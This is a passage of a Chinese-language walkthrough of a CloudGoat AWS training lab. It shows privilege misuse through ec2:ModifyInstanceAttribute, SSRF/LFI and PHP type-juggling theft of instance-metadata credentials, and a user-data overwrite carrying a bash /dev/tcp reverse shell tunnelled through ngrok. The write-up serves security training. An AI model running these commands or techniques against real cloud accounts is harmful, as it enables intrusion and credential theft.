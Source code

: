 可以发现这个实例正在运行一些Web应用。使用该实例的公共DNS，尝试访问：

[![](https://p0.ssl.qhimg.com/t012e19d9f9037256a8.png)](https://p0.ssl.qhimg.com/t012e19d9f9037256a8.png)

Hmm… 无法访问 🙁 可能是因为Security Groups策略。用以下命令检查它：

```
aws ec2 describe-security-groups --profile bob
```

从输出中可以读到有三个Security Groups:
<li>
`cloudgoat_ec2_debug_sg` (控制端口：0–65535)</li>
<li>
`cloudgoat_lb_sg` (控制端口：80)</li>
<li>
`cloudgoat_ec2_sg` (控制端口：22)</li>
`cloudgoat_ec2_sg`的22端口是该EC2实例唯一设置开放的。如果我们分配了`cloudgoat_lb_sg` 或者 `cloudgoat_ec2_debug_sg`，那么就允许通过HTTP流量了。很幸运，Bob有这个权限`ec2:ModifyInstanceAttribute`。让我用它分配`cloudgoat_ec2_debug_sg`(GroupId: sg-07b7aa99f0067c524)：

```
aws ec2 modify-instance-attribute --instance-id i-0e47e1bcf0904eaf4 --groups sg-07b7aa99f0067c524 --profile bob
```

现在再去访问公共DNS，呈现的是可使用的Web应用程序了。页面源代码中展示了用户数据。在这里只要你能提供正确的密钥，这个程序就可以作为代理，查询一些数据。在云服务中，SSRF和XXE被视为最危险的漏洞，因为它们可以泄露最敏感的信息，例如[元数据](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)，它储存着实例中所有用户的访问密钥和会话令牌。让我们看看里面有什么有趣的东西。

[![](https://p4.ssl.qhimg.com/t01422b0a078300bccd.png)](https://p4.ssl.qhimg.com/t01422b0a078300bccd.png)

Yeah，现在我获取了实例配置文件的新密钥！请注意，****一旦您在其它实例使用它们，它会触发GuardDuty警报：****

[![](https://p1.ssl.qhimg.com/t019ddf8c03b3661c4a.png)](https://p1.ssl.qhimg.com/t019ddf8c03b3661c4a.png)

现在，我需要做的是用RCE漏洞建立一个反向代理shell。玩弄PHP诡计（[这里](https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf)你可以学到），一个空数组返回`NULL`和`NULL == 0`。所以，不需要密钥也可以获取元数据：

[![](https://p4.ssl.qhimg.com/t01236551b3174f6fd1.png)](https://p4.ssl.qhimg.com/t01236551b3174f6fd1.png)

我肯定这个LFI漏洞可以导致RCE。然而，无论我如何尝试（RFI，注入访问日志和错误日志，`data://`包装），这些PHP代码都不能执行（如果你有办法getshell，请在评论处分享）。

时间有限，我决定用一种高调的方法。使用`ec2:ModifyInstanceAttribute`，把用户数据用shell覆盖掉。首先，我得暂停实例（的确很高调）：

[![](https://p2.ssl.qhimg.com/t01fbb425d8f63e1360.png)](https://p2.ssl.qhimg.com/t01fbb425d8f63e1360.png)

现在我得确保实例启用后会自动执行shell。不用创建或者下载文件，一条bash命令就可以getshell：

```
bash -i &gt;&amp; /dev/tcp/[my_ip]/[my_port] 0&gt;&amp;1
```

如果你用的是NAT上网方式，你得不到shell。别着急，任何问题都可以解决！使用[ngrok](https://ngrok.com/)将本地流量转发到公网IP。使用以下命令：`./ngrok tcp [my_port]`

